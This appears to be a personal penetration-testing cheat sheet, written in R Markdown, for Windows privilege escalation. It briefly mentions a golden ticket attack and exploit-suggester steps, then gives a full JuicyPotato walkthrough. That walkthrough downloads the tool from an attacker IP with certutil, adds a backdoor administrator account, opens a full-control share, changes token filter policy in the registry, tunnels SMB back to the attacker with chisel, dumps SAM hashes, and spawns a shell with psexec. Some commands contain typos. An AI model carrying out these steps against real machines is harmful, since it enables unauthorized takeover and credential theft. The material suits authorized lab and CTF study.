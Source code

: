# Windows Machine {-}

## Active Directory {-}

### Golden Ticket Attack {-}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the **krbtgt** user that is the one who 
can create those tickets

## Check possible priviledge escalation vulnerabilities {-}

1. check os:

    ```bash
    systeminfo
    ```

1. copy the result and pase in a file in local

1. download windows-exploit-suggester.py

1. generate xlsx data base
    
    ```bash
    python3 windows-exploit-suggester.py --update
    ```

1. check systeminfo documentation

    ```
    python3 windows-exploit-suggester.py -i systeminfo.txt -d 2021-07-14-mssb.xlsx
    ```

1. github.SecWiki/windows-kernel-exploits

1. python -m http.server

1. certutil.exe -f

## Check command history {-}

```bash
dir/s *history.txt
```

## JuicyPotato {-}

Juicy Potato is a local privilege escalation tool that exploit Windows service accounts impersonation privileges.

1. Check user privilege

    ```bash
    whoami
    whoami /priv
    ```

    ```r
        knitr::include_graphics("images/juicy-impersonate-priv.png")
    ```

    Here we can see that `SeImpersonatePrivilege` is enabled. That means that we can use JuicyPotatoe to run commands

1. Check users in the system

    ```bash
    net user
    ```

1. Create User with Admin privilege

    - download JuicyPotato.exe and copy in the victim machine
    - create folder in `C:\Windows\Temp`
    - Transfer JuicyPotato to Windows Machine
    
        ```bash
        certutil.exe -f -urlcache -split http://10.10.10.10/JuicyPotato.exe JP.exe
        ```
    - Create user looping

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user looping looping123! /add"
        ```

    - Add user to Administrators group

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators looping /add"
        net user looping
        ```

    - Create Share folder where user with Administrators rules have Full privilege

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
        ```
    
    - Update local account policy to gain access to the system

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
                                                                    /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
        ```

    - Check with chisel and crackmapexec if user looping is now Pownd 

        - download chisel on attacker machine and on victim machine
        - run chisel on attacker machine

            ```bash
            ./chisel server --reverse --port 1234
            ```

        - run chisel on windows victim machine

            ```bash
            chisel.exe client 10.10.10.10:1234 R:445:127.0.0.1:445
            ```
        - check if revert port forwarding works

            ```bash
            crackmapexec smb 127.0.0.1
            ```

        - check if looping is powned
        
            ```bash
            crackmapexec smp -u 'looping' -p 'looping123!' --sam

            #OUTPUT
            SMB 127.0.0.1   445 MACHINENAME [*] machinename\looping:looping123! (Pwn3d!)
            ```
    
    - Connect to machine with psexec.python

        ```bash
        locate psexex.py
        psexec.py WORKGROUP/looping@127.0.0.1 cmd.exe
        ```
